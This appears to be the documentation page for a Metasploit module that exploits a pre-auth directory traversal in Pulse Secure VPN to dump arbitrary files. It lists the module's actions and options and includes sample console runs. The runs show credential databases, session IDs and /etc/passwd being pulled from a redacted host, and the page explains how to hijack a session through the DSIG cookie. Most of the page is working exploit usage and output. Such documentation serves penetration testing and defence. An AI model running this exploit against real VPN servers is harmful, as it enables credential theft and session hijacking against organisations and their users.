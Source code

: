 ## Introduction

This module exploits a pre-auth directory traversal in the Pulse Secure
VPN server to dump an arbitrary file. Dumped files are stored in loot.

If the `Automatic` action is set, plaintext and hashed credentials, as
well as session IDs, will be dumped. Valid sessions can be hijacked by
setting the `DSIG` browser cookie to a valid session ID.

For the `Manual` action, please specify a file to dump via the `FILE`
option. `/etc/passwd` will be dumped by default. If the `PRINT` option is
set, file contents will be printed to the screen, with any unprintable
characters replaced by a period.

## Actions

```
Name       Description
----       -----------
Automatic  Dump creds and sessions
Manual     Dump an arbitrary file (FILE option)
```

## Options

**FILE**

Set this to the file you want to dump. The default is `/etc/passwd`.
Valid only in manual mode.

**PRINT**

Whether to print file contents to the screen. Valid only in manual mode.

## Usage

Dumping creds and sessions in automatic mode:

```
msf5 auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in automatic mode
[*] Dumping /data/runtime/mtmp/lmdb/dataa/data.mdb
[+] /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[*] Dumping /data/runtime/mtmp/lmdb/randomVal/data.mdb
[*] Parsing session IDs...
[+] Session ID found: df502e6052d9002d8f02160af8bfd055
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: acbef5625
[+] Session ID found: c145e683a
[+] Session ID found: fc6c097dd
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: c145e683a17cfacb72a47eb8b2515c14
[+] Session ID found: a7661751393e16fa253e97bd02dc2a4f
[+] Session ID found: 7e78ab276afea3f00dfa41892c437156c699eff8
[+] /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[*] Dumping /data/runtime/mtmp/system
[+] /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin
[*] Auxiliary module execution completed
msf5 auxiliary(gather/pulse_secure_file_disclosure) > loot

Loot
====

host         service  type                                        name                                        content                   info                   path
----         -------  ----                                        ----                                        -------                   ----                   ----
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/dataa/data.mdb      application/octet-stream  Plaintext credentials  /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/randomVal/data.mdb  application/octet-stream  Session IDs            /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/system                   application/octet-stream  Hashed credentials     /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin

msf5 auxiliary(gather/pulse_secure_file_disclosure) >
```

Dumping default `/etc/passwd` in manual mode:

```
msf5 auxiliary(gather/pulse_secure_file_disclosure) > set action Manual
action => Manual
msf5 auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in manual mode
[*] Dumping /etc/passwd
root:x:0:0:root:/:/bin/bash
nfast:x:0:0:nfast:/:/bin/bash
bin:x:1:1:bin:/:
nobody:x:99:99:Nobody:/:
dns:x:98:98:DNS:/:
term:x:97:97:Telnet/SSH:/:
web80:x:96:96:Port 80 web:/:
rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
postgres:x:102:102:PostgreSQL User:/:

[+] /Users/wvu/.msf4/loot/20191029222949_default_[redacted]_PulseSecureVPN_073170.bin
[*] Auxiliary module execution completed
msf5 auxiliary(gather/pulse_secure_file_disclosure) >
```
